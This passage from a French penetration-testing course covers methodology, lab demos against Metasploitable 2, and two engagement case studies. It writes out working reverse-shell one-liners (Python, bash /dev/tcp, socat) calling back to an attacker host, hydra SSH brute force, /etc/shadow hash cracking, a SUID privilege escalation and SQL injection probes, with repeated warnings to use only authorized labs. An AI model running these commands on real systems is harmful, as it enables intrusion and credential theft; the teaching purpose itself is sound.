   │ 2. PORTS (large)    sudo nmap -Pn -p- --min-rate 1000 IP     │
   │    → sur les 65 535 ports TCP, lesquels sont ouverts ?        │
   └──────────────────────┬───────────────────────────────────────┘
                          ▼
   ┌──────────────────────────────────────────────────────────────┐
   │ 3. SERVICES          sudo nmap -Pn -sV -p <ports_ouverts> IP  │
   │    → quel service, quelle version sur chaque port ?           │
   └──────────────────────┬───────────────────────────────────────┘
                          ▼
   ┌──────────────────────────────────────────────────────────────┐
   │ 4. OS / scripts      sudo nmap -Pn -O -sC -p <ports> IP       │
   │    → système d'exploitation + scripts d'énumération           │
   └──────────────────────┬───────────────────────────────────────┘
                          ▼
   ┌──────────────────────────────────────────────────────────────┐
   │ 5. VULN              sudo nmap --script vuln -p <ports> IP    │
   │    → croisement avec les CVE connues                          │
   └──────────────────────┬───────────────────────────────────────┘
                          ▼
   ┌──────────────────────────────────────────────────────────────┐
   │ 6. ANALYSE           service + version → CVE → candidat       │
   │    → chaque ligne devient une entrée dans le rapport          │
   └──────────────────────────────────────────────────────────────┘
```

### Reverse shell vs bind shell

```
REVERSE SHELL                          BIND SHELL
(la cible appelle l'attaquant)         (la cible écoute, l'attaquant appelle)

   TOI                              CIBLE                  TOI                    CIBLE
   │                                  │                    │                       │
   │  1. tu écoutes                   │                    │  1. tu te connectes    │
   │  nc -lvnp 4444                   │                    │  nc <cible> 4444      │
   │  ───────●────────                 │                    │      ──────▶          │
   │                                  │                    │                       │
   │                                  │ 2. la cible initie  │                       │
   │                                  │    nc -e /bin/sh    │                       │
   │  ◀════════════════════════════════ 10.0.0.5 4444       │                       │
   │                                  │                    │                       │
   │  3. shell ! (sortant, passe      │                    │  2. le pare-feu de la  │
   │  les pare-feu entrants)          │                    │  cible peut BLOQUER    │
   │                                  │                    │     l'entrée           │

   POURQUOI UTILISER LA REVERSE ?
   → La cible sort rarement vers un pare-feu bloquant les entrées.
   → L'attaquant contrôle l'écouteur (port, adresse).
```

### Arbre de décision — escalade de privilèges Linux

```
          🧑 Première session (utilisateur limité)
                      │
                      ▼
        ┌─ As-tu des droits sudo ? (sudo -l)
        │        │
        │      Oui ────────▶ La règle permet-elle d'exécuter un binaire
        │                    en root sans mot de passe ? (ex: vim)
        │                    │
        │                    ├── Oui ──▶ GTFOBins ──▶ exploiter (sudo vim)
        │                    └── Non  ─▶ continuer
        │
        ▼
   ┌─ Binaire SUID ? (find / -perm -4000 -type f 2>/dev/null)
   │      │
   │    Oui ────────▶ Le binaire est-il dans GTFOBins ?
   │                  │
   │                  ├── Oui ──▶ exécuter la technique (ex: find -exec)
   │                  └── Non  ─▶ continuer
   │
   ▼
   ┌─ Cron root ? (cat /etc/crontab, /etc/cron.d/*)
   │      │
   │    Oui ────────▶ Le script exécuté est-il MODIFIABLE par l'utilisateur ?
   │                  ├── Oui ──▶ écrire un reverse shell / chmod 4755
   │                  └── Non  ─▶ continuer
   │
   ▼
   ┌─ Capabilities ? (getcap -r / 2>/dev/null)
   │      │
   │    Oui ────────▶ cap_setuid ? ──▶ python3 -c 'import os; os.setuid(0)...'
   │
   ▼
   ┌─ Noyau vulnérable ? (uname -a)
   │      │
   │    Oui ────────▶ searchsploit / CVE ──▶ exploit (ATTENTION: risque de crash)
   │
   ▼
   ┌─ Fichiers sensibles ? (.bash_history, /etc/passwd, backups, configs)
   │
   ▼
   🔒 Si rien : RÉSUMÉ → linpeas / enumeration complète → pivot autre utilisateur
```

### Tableau CVSS — les 8 métriques de base

| Code | Métrique | Valeurs | Impact sur le score |
| ---- | -------- | ------- | ------------------- |
| AV | Attack Vector | N / A / L / P | N (réseau) augmente le score |
| AC | Attack Complexity | L / H | L augmente le score |
| PR | Privileges Required | N / L / H | N augmente le score |
| UI | User Interaction | N / R | N augmente le score |
| S | Scope | U / C | C augmente le score |
| C | Confidentiality | H / L / N | H augmente le score |
| I | Integrity | H / L / N | H augmente le score |
| A | Availability | H / L / N | H augmente le score |

### Tableau outils par phase

| Phase | Outils principaux | Livrable |
| ----- | ----------------- | -------- |
| Pre-engagement | Modèle de contrat, RoE, autorisation | Documents signés |
| Recon passive | `whois`, `dig`, `curl`, `sublist3r`, `theHarvester` | Inventaire des actifs |
| Recon active | `nmap`, `masscan`, RustScan, `tcpdump` | Cartographie |
| Vuln analysis | `nmap --script vuln`, `searchsploit`, CVSS | Liste CVE scorée |
| Exploitation | Metasploit, `msfvenom`, `hydra`, `sqlmap`, `nc`, `socat` | POC + premier accès |
| Post-exploitation | `linpeas`, GTFOBins, `john`, `hashcat`, Metasploit post | Privesc + données |
| Reporting | Rapport exécutif + technique, captures | Rapport complet |

## Démonstration

> ⚠️ **Légal** : les 5 démos suivantes se déroulent **exclusivement** sur tes
> propres machines ou des machines de laboratoire isolées (Metasploitable 2,
> VulnHub, réseaux `192.168.56.0/24` de VirtualBox). Aucune action sur un
> système qui ne t'appartient pas ne peut être reproduite sans **autorisation
> écrite**. La méthodologie exige l'autorisation avant chaque action technique.

---

### Démo 1 — Scan méthodique complet d'une cible de laboratoire

#### Contexte

Tu as signé un contrat sur une machine de test : `192.168.56.10` (une VM Metasploitable 2, sur le réseau host-only VirtualBox). Tu ne connais rien de cette machine.

#### Objectif

Produire la cartographie complète de la cible : hôtes vivants, ports ouverts, services, versions, OS, puis premières vulnérabilités — le tout **sauvegardé** pour le rapport.

#### Commandes

```bash
# 1. Découverte des hôtes vivants du périmètre
sudo nmap -sn 192.168.56.0/24

# 2. Scan complet de tous les ports TCP, rapide
sudo nmap -Pn -sS -p- --min-rate 1000 192.168.56.10 -oA scan-all

# 3. Détection de versions + scripts sur les ports ouverts
sudo nmap -Pn -sV -sC -p 21,22,25,53,80,139,445,512,513,514,1099,2121,3306,5432,5900,6000,6667,8009,8180 -oA scan-services 192.168.56.10

# 4. Scripts de vulnérabilités sur les ports clés
sudo nmap --script vuln -p 21,22,80,445,3306 192.168.56.10
```

#### Explication ligne par ligne

1. `-sn` = ping sweep : on envoie des sondes ARP/ICMP pour savoir quels hôtes du réseau répondent. C'est la découverte, la phase 1 du schéma.
2. `-Pn` = on considère la cible comme vivante (pas de découverte d'hôte, on scanne directement) ; `-sS` = SYN scan (half-open, plus discret, nécessite root) ; `-p-` = les **65 535 ports TCP** ; `--min-rate 1000` = minimum 1000 paquets/seconde pour finir vite ; `-oA scan-all` = sauvegarde dans les 3 formats (normal, greppable, XML) pour le rapport.
3. `-sV` = détection de version sur les ports listés ; `-sC` = scripts par défaut (bannières, énumérations courantes). On ne cible que les ports ouverts trouvés en 2 (gain de temps énorme).
4. `--script vuln` = scripts qui croisent les versions avec les vulnérabilités connues. C'est la brique « analyse » avant l'exploitation.

#### Résultat attendu

```
Nmap scan report for 192.168.56.10
Host is up (0.00022s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  netbios-ssn Samba smbd 3.X
...
MAC Address: 08:00:27:...
```

#### Analyse

- La machine est bien vivante et expose de nombreux services.
- `vsftpd 2.3.4` : version légendaire avec un backdoor connu (CVE-2011-2523).
- Samba 3.X : ancien, candidates pour des exploits connus.
- Apache 2.2.8 : vieux.
- On a maintenant des **candidats à l'exploitation** : la démo suivante s'appuie dessus.

#### Erreurs fréquentes

- Oublier `-p-` et ne scanner que les 1000 ports par défaut (on rate le port 6200 du backdoor).
- Lancer `-sV` sur toute la plage de ports (lent) au lieu des ports ouverts.
- Oublier `-oA` : sans sauvegarde, pas de preuve, pas de rapport.
- Utiliser `-sS` sans root : le scan échoue ou passe en connect scan.

#### Correction

```bash
# Bon réflexe : tout sauvegarder dès le début
sudo nmap -Pn -sS -p- --min-rate 1000 192.168.56.10 -oA scan-all
# Puis exporter proprement les ports ouverts pour la suite
grep -E "open" scan-all.gnmap
```

---

### Démo 2 — Reverse shell avec netcat puis stabilisation en Python

#### Contexte

La démo 1 a révélé une vulnérabilité web d'exécution de commandes sur une machine de labo (injection de commandes dans une application) ou un accès ftp de test. Tu es en `www-data` sur `192.168.56.10`. Ta machine d'attaque est `192.168.56.1` (Kali).

#### Objectif

Obtenir un shell interactif stable depuis la cible vers ton poste, puis le stabiliser pour pouvoir utiliser `clear`, `su`, les éditeurs, etc.

#### Commandes

```bash
# Terminal 1 — ton poste : écouter
nc -lvnp 4444

# Terminal 2 — via la faille (injection de commande) : lancer le shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Dans le shell obtenu — stabilisation
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# puis : Ctrl+Z (mettre le shell en arrière-plan)
stty raw -echo; fg
# puis : entrée pour réactiver, puis régler les dimensions
stty rows 40 cols 80
```

#### Explication ligne par ligne

- `nc -lvnp 4444` : `-l` écoute, `-v` verbose, `-n` pas de résolution DNS, `-p 4444` port d'écoute. C'est l'écouteur reverse.
- Le one-liner Python : crée une socket (`socket.socket`), se connecte à `192.168.56.1:4444` (`s.connect`), redirige l'entrée/sortie/erreur du processus vers la socket (`os.dup2`), puis lance `/bin/sh -i` en interactif (`subprocess.call`). Toute commande que tu tapes dans ton terminal est envoyée par la socket au shell de la cible.
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : crée un pseudo-TTY (terminal) du côté cible : le shell devient un vrai terminal.
- `export TERM=xterm` : indique le type de terminal (sans cela, les éditeurs comme vim refusent de s'ouvrir).
- `Ctrl+Z` puis `stty raw -echo; fg` : passe ton terminal local en mode brut sans écho, puis remet le shell au premier plan. Sans ce passage, les touches comme flèches ou Ctrl+C partent dans la mauvaise direction.
- `stty rows 40 cols 80` : aligne la taille du terminal.

#### Résultat attendu

```
root@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.10] 38652
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Après stabilisation : `clear`, `ls`, les couleurs, et `sudo -l` fonctionnent normalement.

#### Analyse

Le shell reverse a fonctionné parce que la cible peut **sortir** vers le port 4444. La stabilisation est indispensable : sans elle, impossible de lancer des outils interactifs (vim, nano, `top`) et les signaux de terminal ne sont pas gérés correctement. C'est le socle de la post-exploitation.

#### Erreurs fréquentes

- Oublier `-p` dans `nc` (l'écoute ne se fait pas sur le bon port).
- Se connecter au mauvais hôte/port (côté cible : l'IP **de l'attaquant**).
- Le one-liner Python ne fonctionne pas car la cible n'a que `python` (pas `python3`) — vérifier avec `which python`.
- Ne pas stabiliser et tenter `su` : échec ou décalage d'affichage.

#### Correction

```bash
# Si python3 absent, essayer python
python -c 'import socket,subprocess,os;s=socket.socket(...)...'
# Alternative socat si présent sur la cible
socat TCP:192.168.56.1:4444 EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
# Alternative bash pur (sans nc ni python)
bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

---

### Démo 3 — Bruteforce SSH avec hydra sur une cible labo autorisée

#### Contexte

Sur la VM de test, le service SSH est ouvert (port 22). Les RoE de ton labo autorisent un bruteforce limité. L'utilisateur est connu de la recon : `msfadmin` (compte par défaut de la VM de formation).

#### Objectif

Tester si le compte `msfadmin` utilise un mot de passe faible figurant dans la wordlist rockyou.

#### Commande

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.10 -t 4 -f -o hydra-ssh.txt
```

#### Explication ligne par ligne

- `-l msfadmin` : login unique (un seul utilisateur).
- `-P` : fichier de wordlist des mots de passe (rockyou, décompressé).
- `ssh://192.168.56.10` : protocole et cible. hydra a un module SSH intégré.
- `-t 4` : 4 tâches parallèles maximum (respectueux de la cible).
- `-f` : s'arrêter dès la première combinaison valide trouvée.
- `-o hydra-ssh.txt` : sauvegarde le résultat dans un fichier (preuve).

#### Résultat attendu

```
[22][ssh] host: 192.168.56.10   login: msfadmin   password: msfadmin
1 of 1 target successfully completed, 1 valid password found
```

#### Analyse

Le mot de passe par défaut `msfadmin` est dans rockyou : il a été trouvé quasi immédiatement. Preuve : le fichier `hydra-ssh.txt` et la connexion SSH réelle qui suit. Dans un engagement réel, cette technique serait limitée ou interdite si des comptes de production pouvaient être verrouillés.

#### Erreurs fréquentes

- Oublier de décompresser rockyou : `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`.
- `-t 50` : trop de parallélisme, le serveur SSH ralentit ou bloque.
- Oublier `-f` : hydra continue sur toute la wordlist même après le succès.
- Utiliser une wordlist vide de l'utilisateur : l'attaque ne teste rien.

#### Correction

```bash
# Décompresser rockyou une fois pour toutes
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
# Reprendre si hydra propose (par défaut il reprend)
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.10 -t 4 -f -I
# Vérifier le résultat
ssh msfadmin@192.168.56.10
```

---

### Démo 4 — Cracker un hash avec john puis hashcat

#### Contexte

Sur la VM de labo, un fichier contient un hash MD5 généré à partir d'un mot de passe présent dans rockyou (mot de passe `love`). Tu vas identifier le format, le cracker avec `john`, puis refaire le même test avec `hashcat`.

#### Objectif

Comprendre le pipeline complet : format → wordlist → john → hashcat → comparaison des temps CPU/GPU.

#### Commandes

```bash
# 1. Créer le hash à partir d'un mot présent dans rockyou
echo -n "love" | md5sum | awk '{print $1}' > hash.txt
cat hash.txt

# 2. Cracker avec john (détection automatique du format)
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt

# 3. Cracker avec hashcat (même hash)
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --status
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
```

#### Explication ligne par ligne

- `echo -n "love" | md5sum` : calcule l'empreinte MD5 du mot « love » sans retour à la ligne (`-n`) ; `awk '{print $1}'` isole le hash pur ; `>` l'écrit dans `hash.txt`.
- `john --format=raw-md5` : force le format (ici MD5 brut, sans sel) ; `--wordlist=...` : attaque par dictionnaire ; john affiche le résultat cracké.
- `john --show` : rappelle les mots de passe déjà cassés depuis le pot (`~/.john/john.pot`).
- `hashcat -m 0` : mode MD5 ; `-a 0` : attaque par dictionnaire ; `--status` : suivi en temps réel (vitesse, temps restant) ; `--show` : affiche le résultat déjà trouvé (pot de hashcat).

#### Résultat attendu

```
# john
love             (?)
1 password hash cracked, 0 left
# hashcat
love:love
```

#### Analyse

Le format était identifié : `raw-md5`, mode hashcat `-m 0`. La wordlist rockyou contenait le mot de passe : le crack est instantané. La comparaison des vitesses (affichée par `--status`) montre que `hashcat` exploite le GPU : des dizaines de millions d'essais/seconde contre quelques centaines de milliers pour `john` en CPU sur des formats MD5.

#### Erreurs fréquentes

- Mauvais format : `john` détecte parfois un format non voulu ; forcer avec `--format`.
- Mauvais mode hashcat : un SHA-1 donné à `-m 0` ne donnera rien.
- Hash « sale » (espaces, `:`, retour de ligne) : le copier proprement.
- Sur un vrai `/etc/shadow`, ne pas oublier de retirer le préfixe utilisateur (`root:$6$...`) pour `hashcat` (john gère le format `user:hash`).

#### Correction

```bash
# Lister les formats pour trouver le bon mode
john --list=formats | grep -i md5
hashcat --help | grep -i -E "md5|sha512crypt"
# Pour un hash de /etc/shadow avec $6$ : mode 1800
hashcat -m 1800 -a 0 shadow_hash.txt /usr/share/wordlists/rockyou.txt
```

---

### Démo 5 — Privesc Linux : énumérer avec linpeas, exploiter un SUID

#### Contexte

Tu as obtenu un shell `www-data` sur la VM de labo (démo 2). Tu veux prouver que tu peux passer root : l'impact maximal à documenter.

#### Objectif

Énumérer avec `linpeas`, repérer un binaire SUID, confirmer la technique avec GTFOBins, et obtenir un shell root.

#### Commandes

```bash
# 1. Récupérer linpeas sur la cible (depuis ton poste ou via la cible)
# Sur ton poste :
sudo python3 -m http.server 8000
# Sur la cible (dans le shell) :
curl -L http://192.168.56.1:8000/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.out

# 2. Confirmation manuelle du SUID
find / -perm -4000 -type f 2>/dev/null | grep -v proc

# 3. Vérifier le binaire suspect
ls -la /usr/bin/find

# 4. Exploiter (technique GTFOBins)
/usr/bin/find . -exec /bin/sh -p \; -quit

# 5. Preuve
id
whoami
```

#### Explication ligne par ligne

- `python3 -m http.server 8000` : sert un serveur HTTP local pour transférer linpeas sur la cible.
- `curl -L ... -o linpeas.sh` : télécharge le script depuis ton poste.
- `./linpeas.sh | tee linpeas.out` : lance l'énumération complète et sauvegarde la sortie (la preuve, encore).
- `find / -perm -4000 -type f 2>/dev/null` : cherche les fichiers avec le bit SUID (`4000`) ; `-perm -4000` = « au moins le bit SUID » ; `grep -v proc` élimine le bruit de `/proc`.
- `ls -la /usr/bin/find` : confirme `-rwsr-xr-x` (le `s` à la place du `x` du propriétaire = SUID) et propriétaire root.
- `/usr/bin/find . -exec /bin/sh -p \; -quit` : la technique GTFOBins pour `find` : `find` s'exécute avec l'UID root (SUID) ; `-exec /bin/sh -p` lance un shell qui **conserve** les privilèges (`-p`) ; `-quit` arrête.
- `id` : doit afficher `uid=0(root)`.

#### Résultat attendu

```
www-data@target:/tmp$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

#### Analyse

`linpeas` a mis en avant le SUID ; la confirmation manuelle et GTFOBins ont fourni la technique. Le shell obtenu est root : la machine est entièrement compromise. C'est exactement le niveau de preuve attendu dans un rapport (commande + sortie + capture).

#### Erreurs fréquentes

- Lancer l'exploitation sans vérifier que le binaire est vraiment SUID.
- Utiliser `/bin/sh` sans `-p` : le shell « perd » les privilèges.
- Oublier `-quit` : find parcourt tout le répertoire et ouvre plusieurs shells.
- Ne pas sauvegarder la sortie de linpeas pour le rapport.

#### Correction

```bash
# Si /bin/sh n'est pas disponible, utiliser /bin/bash -p
/usr/bin/find . -exec /bin/bash -p \; -quit
# En cas de doute sur le SUID, re-vérifier
ls -l /usr/bin/find
stat -c "%a %U" /usr/bin/find
```

## Cas réels

> ⚠️ **Légal** : les deux scénarios ci-dessous supposent un contrat signé et
> une autorisation écrite. Dans le monde réel, un pentest sans autorisation
> écrite est un délit d'intrusion.

---

### Cas réel n° 1 — « Tu signes un contrat de pentest pour une PME »

Tu es pentester junior chez une société de services. Une PME de 40 employés (cartouches et imprimantes) te demande un test d'intrusion de son système d'information. Voici comment se déroule **tout** l'engagement.

**Étape 1 — Réunion de cadrage.** Tu rencontres le dirigeant et le responsable informatique. Objectifs : ils veulent savoir si leur réseau interne peut être compromis depuis Internet, et s'ils respectent les exigences de leur assureur. Le périmètre proposé : la DMZ (quelques serveurs) et l'accès VPN. On exclut les postes des collaborateurs et les données médicales d'un client qu'ils hébergent par ailleurs.

**Étape 2 — Contrat et règles d'engagement.** Tu rédiges le scope exact : les 8 IP publiques de la DMZ, les 2 domaines, le VPN. Horaires : 18 h - 6 h pour limiter l'impact. Techniques : bruteforce **autorisé** mais limité à SSH avec 3 essais/compte/min. Interdiction : exfiltrer des données réelles, lancer des exploits destructeurs, pivoter vers le réseau de production sans accord préalable. Contacts d'urgence : le DSI (jour) et un numéro de garde (nuit). Autorisation écrite signée pour la période du 01/03 au 15/03.

**Étape 3 — Recon.** En passif : whois sur les domaines, `dig` pour le MX et les NS, crt.sh pour les sous-domaines, Google dorks (`site:entreprise.fr filetype:sql`). Tu découvres un sous-domaine oublié `test.entreprise.fr`. En actif : `nmap -sV -p-` sur les 8 IP de la DMZ. Tu notes que 2 IP ne répondent pas (un pare-feu les filtre depuis ton point d'entrée) — tu le documentes comme **limite du test**.

**Étape 4 — Analyse.** Le scan révèle : Apache 2.2.15 sur le site public (obsolète), un serveur mail avec une version ancienne, `test.entreprise.fr` qui tourne sur un vieux CMS WordPress avec plugins. `searchsploit` confirme des CVE pour le plugin. Tu évalues chaque constat avec CVSS : la faille WordPress = 8.8 (High), le serveur mail obsolète = 7.5 (High), la divulgation de version Apache = 5.3 (Medium).

**Étape 5 — Exploitation.** Tu commences par le WordPress (High + en dehors de la production). `wpscan --url http://test.entreprise.fr --enumerate vp,u` confirme un plugin vulnérable. Le POC (reproduction minimale) donne un accès limité à un utilisateur applicatif. Tu captures chaque commande. Tu t'arrêtes : le pivot vers le réseau de production n'est pas autorisé par les RoE.

**Étape 6 — Post-exploitation.** Sur le sous-domaine compromis, tu collectes les preuves : utilisateur, fichiers accessibles, version exacte. Tu ne touches à aucune donnée. Tu nets de la machine le shell déposé et les fichiers temporaires. Tu vérifies que le service continue de fonctionner.

**Étape 7 — Reporting.** Tu écris le rapport au fil de l'eau. Rapport exécutif (2 pages) : « votre site de test est compromis ; les actions prioritaires sont la mise à jour du CMS et le durcissement du VPN ». Rapport technique : chaque constat avec sa fiche standard — titre, CVE, CVSS + chaîne vectorielle, actifs, preuve (captures + sorties), impact, recommandation. Tu joins les annexes (scan complet, chronologie, outils).

**Étape 8 — Restitution.** Tu présentes les résultats au dirigeant : il comprend le « pourquoi » des 3 actions prioritaires. Le client corrige, puis tu refais le test ciblé : les failles sont fermées. Rapport final remis, dossier clôturé, facture émise.

**Ce que cette histoire montre :** la méthode a structuré chaque décision. Le périmètre contractuel a protégé la PME ET toi ; les preuves ont rendu le rapport irréfutable ; la discipline (ne pas pivoter, ne pas exfiltrer) a gardé l'engagement propre et légal.

---

### Cas réel n° 2 — « Le client refuse le rapport : pas assez de preuves »

Tu as livré un rapport après un test sur 3 serveurs. Le DSI te rappelle : « Je ne peux pas faire valider ces corrections à mon chef de projet, et mes équipes ne trouvent pas les preuves dans votre document. Le rapport est refusé. » Comment corriges-tu ?

**Diagnostic :** tu as fait l'erreur classique — écrire le rapport après coup, sans captures, avec des phrases vagues (« une injection SQL est possible ») et sans commandes exactes. Tu comprends que « une faille » sans POC, c'est du vent pour une équipe technique.

**Étape 1 — Tu ne contestes pas le refus.** Le client a raison : le rapport est le livrable, et il doit être utilisable. Tu remercies le DSI pour sa précision et tu proposes un plan de correction gratuit (le contrat prévoyait ce type de réajustement).

**Étape 2 — Tu retournes sur le terrain (périmètre encore autorisé).** Pour chaque constat, tu reproduis la vulnérabilité et tu captures :
- commandes exactes (scan, POC),
- sorties brutes (version du service, réponse du serveur),
- captures d'écran horodatées,
- preuve de l'impact (accès shell, lecture d'un fichier de test).

**Étape 3 — Tu restructures le rapport avec une fiche par vulnérabilité :**

```
V-01 — Injection SQL sur /recherche.php
Gravité : 9.1 (Critical) — CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
Actif   : serveur-app (192.168.10.20)
Preuve  :
  1. GET /recherche.php?q=1' AND 1=1 -- -   → 200 OK (1 résultat)
  2. GET /recherche.php?q=1' AND 1=2 -- -   → 200 OK (0 résultat)
  → la différence de comportement prouve l'injection (capture jointe)
Impact  : lecture complète de la base clients (données de test).
Remédiation : requêtes paramétrées (niveau 5 — OWASP A03).
```

**Étape 4 — Tu ajoutes ce qui manquait :** la méthodologie utilisée (PTES), la liste des outils, la chronologie, et surtout une colonne « reproduire » dans la synthèse : chaque correction peut être vérifiée par les équipes.

**Étape 5 — Tu fais relire le rapport par un collègue** (relecture croisée) avant de le renvoyer. Tu proposes une session de restitution où tu reproduis **en direct** les 3 constats critiques devant le DSI.

**Résultat :** le client valide le rapport, les corrections sont faites, le re-test est un succès. Tu retiens la leçon : **les preuves se collectent pendant le test, pas après.**

**Ce que cette histoire montre :** la preuve est la matière première du rapport. Un rapport sans captures et sans commandes est un rapport inutilisable — et un engagement qui vire à la gestion de crise.

## Laboratoires

> ⚠️ **Légal** : les TP se réalisent exclusivement sur des machines
> **vulnérables installées dans des VM isolées** (Metasploitable 2, machines
> VulnHub/HackTheBox/TryHackMe). Le réseau host-only de VirtualBox empêche
> toute fuite vers Internet. Aucune de ces actions n'est légale sur un
> système tiers sans autorisation écrite.

---

### TP 1 — Pentest complet d'une machine vulnérable

#### Objectif

Mener un pentest **complet** (recon → exploitation → privesc → rapport) sur une VM de type Metasploitable 2, en respectant toutes les phases de la méthodologie, avec rapport final rédigé comme pour un client.

#### Environnement

- **Kali Linux** (machine d'attaque) : VirtualBox, réseau host-only `192.168.56.0/24`, IP `192.168.56.1`.
- **Metasploitable 2** (cible) : même réseau, IP `192.168.56.10`. Téléchargée depuis le site officiel Rapid7/VulnHub et importée en VM.
- Réseau host-only : **aucun accès Internet depuis les VM**, isolation garantie.

#### Étapes

1. **Cadrage fictif** : rédige un mini-contrat (scope = `192.168.56.10`, horaires, techniques autorisées, contacts). Conserve-le dans ton dossier de preuves.
2. **Recon** : découverte (`nmap -sn`), scan complet (`nmap -p-`), versions (`nmap -sV -sC`). Note chaque service.
3. **Analyse** : pour chaque service/version, cherche les vulnérabilités connues (`searchsploit`). Établis une liste priorisée avec CVSS.
4. **Exploitation** : obtient un accès (ex. backdoor vsftpd via Metasploit, ou UnrealIRCd, ou identifiants par défaut). Produis un POC.
5. **Post-exploitation** : stabilise le shell, récupère les identifiants (`cat /etc/shadow`), tente l'escalade vers root (souvent déjà root sur cette VM via le backdoor — sinon via les comptes par défaut).
6. **Nettoyage** : supprime tes fichiers de transfert, ferme les sessions.
7. **Rapport** : rédige rapport exécutif + technique avec captures.

#### Indices

- 💡 Indice 1 : le scan `-p-` révèle des services sur des ports atypiques (6200, 6667...). Note-les.
- 💡 Indice 2 : `searchsploit vsftpd` et `searchsploit unreal` donnent des résultats immédiats.
- 💡 Indice 3 : Metasploitable 2 a des comptes par défaut `msfadmin:msfadmin` (SSH) — c'est souvent le chemin le plus rapide vers un shell stable.

#### Correction (un chemin possible)

```bash
# 1. Cadrage fictif écrit (contrat + RoE) — étape non technique obligatoire

# 2. Recon
sudo nmap -sn 192.168.56.0/24
sudo nmap -Pn -sS -p- --min-rate 1000 192.168.56.10 -oA scan-all
sudo nmap -Pn -sV -sC -p 21,22,25,80,139,445,6667,6200 192.168.56.10 -oA scan-services

# 3. Analyse
searchsploit vsftpd 2.3.4
searchsploit unrealircd 3.2.8.1

# 4. Exploitation (méthode Metasploit, backdoor vsftpd)
msfconsole
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOSTS 192.168.56.10
  run
  # ou en direct : accès FTP puis port 6200
  # méthode alternative : ssh msfadmin@192.168.56.10 (mdp : msfadmin)

# 5. Post-exploitation
id
cat /etc/shadow
# si tu n'as pas root, vérifier les comptes et les SUID
find / -perm -4000 -type f 2>/dev/null

# 6. Nettoyage : rm /tmp/*.sh ; exit

# 7. Rapport : exécutif (1 page) + technique (constats + captures)
```

#### Explications

- Le scan complet a montré des services **atypiques** (6200, 6667) : la cartographie complète est la clé.
- Le backdoor vsftpd ouvre un shell root immédiat : dans un vrai engagement, c'est un constat **critique** (CVSS 9.8) car contrôle total sans authentification.
- Le compte `msfadmin` montre le danger des mots de passe par défaut : un constat **élevé**.
- Le rapport doit prouver : qui (utilisateur), quoi (service, version), où (IP, port), comment (commande exacte), quand (capture horodatée).

---

### TP 2 — Gestion des mots de passe : collecte, identification, cracking

#### Objectif

Comprendre le pipeline complet du cracking hors-ligne : collecter un hash en labo, identifier son format, le cracker avec `john` (CPU) puis avec `hashcat` (GPU), et comparer les performances.

#### Environnement

- Ta machine Kali (ou n'importe quel Linux avec `john`, `hashcat`, `zip2john`).
- Un fichier `shadow` de ta VM (celle que tu possèdes et où tu as les droits root — ou une VM de labo où tu es root).
- Une wordlist rockyou décompressée.

#### Étapes

1. **Collecte** : dans la VM dont tu es root, copie une ligne de `/etc/shadow` dans un fichier `shadow.txt` (garde celle d'un utilisateur de labo). Ou crée un zip protégé et utilise `zip2john`.
2. **Identification du format** : observe le préfixe (`$6$`, `$1$`, `$2b$`). Vérifie avec `john --list=formats`.
3. **Cracking john** : lance john avec la bonne wordlist. Note le temps et la vitesse (john affiche « guesses/sec »).
4. **Cracking hashcat** : lance le même hash avec le bon mode `-m`. Note la vitesse GPU avec `--status`.
5. **Comparaison** : écris dans un petit tableau : format, mot trouvé, temps john, vitesse john, temps hashcat, vitesse hashcat.
6. **Bonus** : recrée un hash **bcrypt** (`-m 3200`) et observe la chute de vitesse (bcrypt est volontairement lent).

#### Indices

- 💡 Indice 1 : `/etc/shadow` : une ligne ressemble à `user:$6$saltsalt$hashhash...:19000:...`. `hashcat` veut `hash` seul, `john` accepte `user:hash`.
- 💡 Indice 2 : `sudo gunzip /usr/share/wordlists/rockyou.txt.gz` avant toute chose.
- 💡 Indice 3 : pour hashcat sur GPU : `hashcat -I` liste les devices ; ajouter `--force` seulement si nécessaire (Kali l'exige parfois).

#### Correction

```bash
# 1. Collecte (VM où tu es root)
grep "^alice:" /etc/shadow > shadow.txt
cat shadow.txt
# variante zip : zip2john secret.zip > zip.hash

# 2. Identification
# $6$... = sha512crypt → hashcat -m 1800
# $1$... = md5crypt   → hashcat -m 500
# $2a$/b$ = bcrypt    → hashcat -m 3200

# 3. John (CPU)
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
john --show shadow.txt

# 4. Hashcat (GPU) — extraire le hash sans le "user:"
cut -d: -f2 shadow.txt > hash-only.txt
hashcat -m 1800 -a 0 hash-only.txt /usr/share/wordlists/rockyou.txt --status
hashcat -m 1800 -a 0 hash-only.txt /usr/share/wordlists/rockyou.txt --show

# 5. Comparaison : note les vitesses affichées par les deux outils

# 6. Bonus bcrypt
# générer un hash bcrypt d'un mot de passe simple et le sauvegarder
echo 'MonMot123' | mkpasswd --method=bcrypt > bcrypt.txt
